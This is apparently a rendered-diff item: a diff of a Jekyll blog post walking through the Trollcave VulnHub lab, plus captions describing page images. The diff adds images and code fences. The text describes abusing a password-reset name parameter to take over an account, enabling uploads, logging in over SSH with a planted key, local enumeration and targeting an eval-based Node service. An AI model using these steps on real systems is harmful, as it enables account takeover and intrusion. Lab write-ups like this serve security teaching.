

Before and after one commit to swaudo/swaudo.github.io, a Jekyll site: the page built from _posts/2019-08-01-trollcave-walkthrough.md, in a window 1280 px wide. Shown: the part 3086-5000 px from the top of the page at 80% size, without its empty margins (317-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2019-08-01-trollcave-walkthrough.md
+++ b/_posts/2019-08-01-trollcave-walkthrough.md
@@ -147,7 +147,7 @@
 
 It sends the link
 
-
+![5-4.png](/assets/images/posts/trollcave-vulnhub-walkthrough/5-5.png)
 
 Note the end of the string has the parameter [name]. We'll abuse this part.
 Since we already know all the users. How about resetting password for King `http://192.168.251.9/password_resets/edit.9AY5mR6eT1CmgWazJRsdvw?name=King`
@@ -156,7 +156,7 @@
 
 
 Once we're logged in we go to admin panel and enable file upload
-
+![5-4.png](/assets/images/posts/trollcave-vulnhub-walkthrough/5-6.png)
 
 
 Reading through the user King blogs we come across
@@ -176,14 +176,12 @@
 Upload the key as follows:
 Note we'll upload with user as xer upload as King don't work:
 
-
-
-ssh -i trollcave rails@192.168.251.9
+	ssh -i trollcave rails@192.168.251.9
 
 We'll run LinEnum and les.
 
 We'll use LinEnum. The user king has sudo rights  `.sudo_as_admin_successful`
-
+```
 rails@trollcave:~$ ls -lah /home/king/
 total 32K
 drwxr-xr-x 4 king king 4.0K Mar 21  2018 .
@@ -195,11 +193,9 @@
 drwxrwxr-x 2 king king 4.0K Sep 28  2017 calc
 -rw-r--r-- 1 king king  675 Sep 16  2016 .profile
 -rw-r--r-- 1 king king    0 Sep 16  2016 .sudo_as_admin_successful
-
-He's running a program called
 ```
-drwxrwxr-x 2 king king 4.0K Sep 28  2017 calc
-
+He's running a program called  calc
+```
 rails@trollcave:/home/king/calc$ cat calc.js
 var http = require("http");
 var url = require("url");
@@ -296,7 +292,7 @@
 
 Its tells us its running on 8888.
 Confirmed by,
-
+```
 [-] Listening TCP:
 Active Internet connections (only servers)
 Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
@@ -307,6 +303,7 @@
 tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
 tcp6       0      0 :::22                   :::*                    LISTEN      -
 tcp6       0      0 ::1:5432                :::*                    LISTEN      -
+```
 
 Taking a closer look at this function it uses the eval function. According this [site][5] it's advises against using the eval function as it is exploitable; we'll go ahead and exploit it
 
````
